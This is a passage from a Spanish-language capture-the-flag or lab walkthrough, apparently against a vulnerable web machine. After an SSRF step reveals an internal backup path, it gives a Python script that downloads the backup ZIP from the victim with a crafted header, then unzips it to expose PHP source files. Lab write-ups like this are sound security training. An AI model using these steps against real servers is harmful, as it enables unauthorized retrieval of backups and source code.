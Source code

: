 Vemos que ha funcionado y nos esta mostrando una `URL` interna a la que vamos acceder poniendolo directamente en el campo de `Check Status`.

```
http://localhost/061400ca5d384de48f37a71ec23cc518/backups/backup_5025a3123660d066c9ba8617c0cd92d5.zip
```

Pero veremos que el `ZIP` nos lo muestra literalmente, por lo que vamos a descargarnoslo de forma directa mediante un script de `python3`.

> ssrf\_saved\_zip.py

```python
import requests

victim_url = "http://<IP_VICTIM>/061400ca5d384de48f37a71ec23cc518/backups/backup_5025a3123660d066c9ba8617c0cd92d5.zip"
headers = {"Statusid": "1"}

resp = requests.get(victim_url, headers=headers, timeout=30)

if resp.status_code == 200:
    with open("backup_direct.zip", "wb") as f:
        f.write(resp.content)
    print("Archivo descargado como backup_direct.zip")
else:
    print(f"Error, status: {resp.status_code}")
```

Ahora lo ejecutaremos de esta forma:

```shell
python3 ssrf_saved_zip.py
```

Info:

```
Archivo descargado como backup_direct.zip
```

Veremos que ha funcionado, por lo que vamos a extraer dicho archivo de esta forma:

```shell
unzip backup_direct.zip
```

Info:

```
Archive:  backup_direct.zip
   creating: backup_5025a3123660d066c9ba8617c0cd92d5/
   creating: backup_5025a3123660d066c9ba8617c0cd92d5/061400ca5d384de48f37a71ec23cc518/
   creating: backup_5025a3123660d066c9ba8617c0cd92d5/061400ca5d384de48f37a71ec23cc518/cc8e38c20e4e2f58291c0f8b2e3ace5f/
   creating: backup_5025a3123660d066c9ba8617c0cd92d5/061400ca5d384de48f37a71ec23cc518/cc8e38c20e4e2f58291c0f8b2e3ace5f/dev/
  inflating: backup_5025a3123660d066c9ba8617c0cd92d5/061400ca5d384de48f37a71ec23cc518/cc8e38c20e4e2f58291c0f8b2e3ace5f/dev/status.php  
  inflating: backup_5025a3123660d066c9ba8617c0cd92d5/061400ca5d384de48f37a71ec23cc518/cc8e38c20e4e2f58291c0f8b2e3ace5f/dev/file.php  
  inflating: backup_5025a3123660d066c9ba8617c0cd92d5/status.php
```
